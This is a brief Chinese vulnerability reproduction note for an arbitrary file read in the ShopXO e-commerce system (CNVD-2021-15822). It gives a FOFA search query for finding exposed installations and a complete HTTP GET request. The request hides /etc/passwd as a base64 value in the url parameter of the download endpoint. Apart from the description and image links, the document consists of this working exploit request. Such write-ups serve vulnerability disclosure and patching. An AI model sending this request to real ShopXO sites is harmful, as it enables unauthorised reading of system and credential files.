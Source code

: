 # ShopXO download 任意文件读取漏洞 CNVD-2021-15822

## 漏洞描述

ShopXO是一套开源的企业级开源电子商务系统。ShopXO存在任意文件读取漏洞，攻击者可利用该漏洞获取敏感信息

## 漏洞影响

```
ShopXO
```

## FOFA

```
app="ShopXO企业级B2C电商系统提供商"
```

## 漏洞复现

商城主页如下

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202170858707.png)

发送漏洞请求包

```plain
GET /public/index.php?s=/index/qrcode/download/url/L2V0Yy9wYXNzd2Q= HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:87.0) Gecko/20100101 Firefox/87.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

其中 **/url/xxxx** 中的 base64 解码后为 **/etc/passwd**

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202170859076.png)